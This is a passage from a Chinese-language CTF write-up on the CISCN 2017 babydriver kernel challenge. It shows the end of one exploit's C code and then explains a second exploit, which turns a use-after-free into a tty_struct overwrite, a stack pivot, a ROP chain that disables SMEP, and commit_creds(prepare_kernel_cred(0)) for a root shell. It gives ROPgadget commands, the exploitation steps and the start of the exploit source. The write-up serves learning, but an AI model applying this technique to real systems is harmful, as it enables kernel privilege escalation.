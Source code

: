 ```c
        }
    }
    else if (pid > 0)  {
        wait(NULL);
    }
    else {
        printf("Fork failed!\n");
    }
    close(fd2);

    return 0;
}
```

#### exploit2

思路：利用gadgets关闭SMEP，内核没有开启地址随机，直接`commit_creds(prepare_kernel_cred(0))`，然后跳转到用户程序getshell。

这里使用覆写`tty_struct`的方法来获得程序控制流：

`tty_struct`

<details><summary>struct tty_struct</summary></details>
`struct tty_operations`

<details><summary>struct tty_operations</summary></details>
可以看到`tty_struct`结构偏移24的地方存放了一个`tty_operations`结构的指针，这个`tty_operations`结构都是对tty进行操作的函数指针，可以控制`ops`指针指向我们可以控制的区域。显然一次函数调用，我们能干的事情很少，所以就使用这一次调用执行stack pivot，ROP来获得持续的控制。

这里使用write函数调用，在执行到write时，可以发现此时rax指向`tty_operations`的首地址，所以先在operations中构造rop。（在V1NKe师傅的[文章](https://xz.aliyun.com/t/4529#toc-4)中可以发现write是通过`call [rax+0x38]`调用的，应该怎样找到这个断点地址？）

使用[extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux)脚本解压得到内核镜像，再通过ROPgadget或者Ropper获得gadgets。

```shell
$ ./extract-vmlinux bzImage > vmlinux
$ ROPgadget --binary vmlinux > gadgets
$ ROPgadget --binary vmlinux --opcode 48cf  # search for iretq
```

利用流程：

```
1. 两次打开/dev/babydev设备，ioctl该设备buf为0x2e0   # sizeof(struct tty_struct) = 0x2e0
2. 在tty_operations上布置rop
3. 关闭一个babydev，会将buf释放一次，造成UAF
4. open("/dev/ptmx", O_RDWR|O_NOCTTY)将使用刚释放的0x2e0空间存储tty_struct
5. 改写tty_struct
6. write触发
```
[exp](https://github.com/clxsh/ctf_wps/blob/master/others/kernel_pwn/ciscn2017-babydriver/exp2.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>

struct trap_frame {
    uint64_t rip;
    uint64_t cs;
    uint64_t rflags;
    uint64_t rsp;
    uint64_t ss;
};
struct trap_frame tf;

```